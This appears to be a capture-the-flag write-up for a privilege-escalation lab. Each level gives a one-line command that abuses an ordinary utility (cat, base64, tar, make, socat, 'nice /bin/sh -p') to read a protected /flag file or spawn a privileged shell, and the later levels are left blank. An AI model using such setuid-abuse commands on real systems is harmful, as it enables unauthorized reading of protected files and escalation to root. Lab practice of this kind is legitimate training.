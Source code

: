 

### level 1 - cat

```bash
$ cat /flag
```

### level 2 - more

```bash
$ more /flag
```

### level 3 - less

```bash
$ less /flag
```

### level 4 - tail

```bash
$ tail /flag
```

### level 5 - head

```bash
$ head /flag
```

### level 6 - sort

```bash
$ sort /flag
```

### level 7 - vim 

```bash
$ vim /flag
```

### level 8 - e acs 

```bash
$ emacs /flag
```

### level 9 - nano 

```bash
$ nano /flag
```

### level 10 - rev

```bash
$ rev /flag | rev
```

### level 11 - od

```bash
$ od /flag --format=c
```

### level 12 - hd

```bash
$ hd /flag
```

### level 13 - xxd

```bash
$ xxd /flag
```

### level 14 - base32

```bash
$ base32 /flag | base32 -d
```

### level 15 - base64

```bash
$ base64 /flag | base64 -d
```

### level 16 - split

```bash
$ split /flag | cat xaa
```

### level 17 - gzip

```bash
$ gzip /flag && gzip -dc /flag.gz
```

### level 18 - bzip2

```bash
$ bzip2 -z /flag && bzip2 -dc /flag.bz2
```

### level 19 - zip

```bash
$ zip test2.zip /flag && unzip -c test2.zip
```

### level 20 - tar

```bash
$ tar -cf test.tar /flag && tar -xf test.tar -O
```

### level 23 - genisoimage

```bash
$ genisoimage -sort /flag 
```

### level 26 - make

```bash
$ make -s --eval=$'x:\n\t-'"cat /flag"
```

### level 27 - nice

```bash
$ nice /bin/sh -p
```

### level 28 - timeout

```bash
$ timeout 1 cat /flag
```

### level 29 - stdbuf

```bash
$ stdbuf --output=L cat /flag
```

### level 30 - setarch

```bash
$ setarch x86_64 cat /flag
```

### level 31 - watch

```bash
$ watch -x cat /flag
```

### level 32 - socat

```bash
$ socat -u EXEC:'cat /flag' STDOUT
```

### level 33 - whiptail 

```bash
$ whiptail --textbox "/flag" 50 50 
```

### level 34 - awk

```bash
$ 
```

### level 35 - sed

```bash
$ 
```

### level 36 - ed

```bash
$ 
```

### level 37 - chown

```bash
$ 
```

### level 38 - chmod

```bash
$ 
```

### level 39 - cp

```bash
$ 
```

### level 41 - perl 

```bash
$ 
```

### level 42 - python

```bash
$ 
```

### level 45 - date

```bash
$ 
```

### level 46 - dmesg

```bash
$ 
```

### level 47 - wc

```bash
$ 
```

### level 48 - gcc

```bash
$ 
```

### level 49 - as

```bash
$ 
```

### level 50 - wget

```bash
$ 
```

### level 51 - ssh-keygen

```bash
$ 
```
